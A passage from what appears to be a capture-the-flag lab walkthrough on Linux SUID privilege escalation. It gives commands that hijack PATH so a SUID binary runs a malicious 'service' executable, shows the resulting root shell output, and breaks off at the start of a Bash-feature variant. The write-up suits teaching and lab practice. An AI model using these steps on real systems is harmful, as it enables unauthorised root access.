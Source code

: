 **2. Compile the Exploit:**

Compile the code into an executable named `service`:

```bash
gcc -o service /home/user/tools/suid/service.c
```

**3. Exploit the PATH Variable:**

Prepend the current directory to the `PATH` environment variable so that when the SUID program tries to run `service`, it will execute your malicious version instead:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

**Sample Output:**

```bash
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

**Explanation:**  
The SUID program runs the malicious `service` executable, resulting in a root shell.

### Cleanup

After confirming root access, remove the malicious `service` executable and exit the root shell:

```bash
rm ./service
exit
```

**No Answer Needed**

## SUID / SGID Executables - Abusing Shell Features (#1)

### Step 1: Understanding the Vulnerability

The `/usr/local/bin/suid-env2` executable is similar to `/usr/local/bin/suid-env`, except that it uses the absolute path to the `service` executable (`/usr/sbin/service`) to start the Apache webserver. This difference typically protects against PATH manipulation attacks, but we can exploit it using a Bash feature that affects versions less than 4.2-048.

### Step 2: Verifying the Executable and Bash Version

First, confirm that the `suid-env2` executable indeed calls the `service` command using an absolute path by using the `strings` command:

```bash
strings /usr/local/bin/suid-env2
```

**Sample Output:**
